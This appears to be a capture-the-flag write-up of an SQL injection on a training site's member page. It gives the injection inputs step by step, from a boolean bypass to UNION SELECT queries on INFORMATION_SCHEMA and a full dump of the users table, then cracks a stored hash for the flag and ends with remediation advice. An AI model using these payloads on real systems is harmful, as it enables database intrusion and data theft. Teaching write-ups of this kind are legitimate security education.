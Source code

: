 # SQLI users

### Breach Exploit
From /?page=member we have an sql injection where we can dump all the db:

```
42 OR 1

First name: one
Surname : me

First name: two
Surname : me

First name: three
Surname : me

First name: Flag
Surname : GetThe
```

Get informations about tables:

```
42 UNION ALL SELECT TABLE_SCHEMA, TABLE_NAME FROM INFORMATION_SCHEMA.TABLES

Database: Member_Brute_Force
Table: db_default

Database: Member_Sql_Injection
Table: users

Database: Member_guestbook
Table: guestbook

Database: Member_images
Table: list_images

Database: Member_survey
Table: vote_dbs
```

Get informations about column name:

```
42 UNION ALL SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS

First name: db_default
Surname : id

First name: db_default
Surname : username

First name: db_default
Surname : password

First name: users
Surname : user_id

First name: users
Surname : first_name

First name: users
Surname : last_name

First name: users
Surname : town

First name: users
Surname : country

First name: users
Surname : planet

First name: users
Surname : Commentaire

First name: users
Surname : countersign

First name: guestbook
Surname : id_comment

First name: guestbook
Surname : comment

First name: guestbook
Surname : name

First name: list_images
Surname : id

First name: list_images
Surname : url

First name: list_images
Surname : title

First name: list_images
Surname : comment

First name: vote_dbs
Surname : id_vote

First name: vote_dbs
Surname : vote

First name: vote_dbs
Surname : nb_vote

First name: vote_dbs
Surname : subject
```

Dump the users table:

```
42 UNION ALL SELECT CONCAT(USER_ID, 0x0A, FIRST_NAME, 0x0A, FIRST_NAME, 0x0A, LAST_NAME, 0x0A, TOWN, 0x0A, COUNTRY, 0x0A, PLANET, 0x0A, COMMENTAIRE, 0x0A, COUNTERSIGN), 42 FROM users 

First name: 5
Flag
Flag
GetThe
42
42
42
Decrypt this password -> then lower all the char. Sh256 on it and it's good !
5ff9d0165b4f92b14994e5c685cdce28
```

Then brute force an encryp to get the flag:

```
md5(5ff9d0165b4f92b14994e5c685cdce28) = FortyTwo
sha256(fortytwo) = 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

### Fix Breach
Use prepared statements and parameterized queries. These are SQL statements that are sent to and parsed by the database server separately from any parameters. This way it is impossible for an attacker to inject malicious SQL.
```https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html```

### Documentation
```https://owasp.org/www-community/attacks/SQL_Injection```
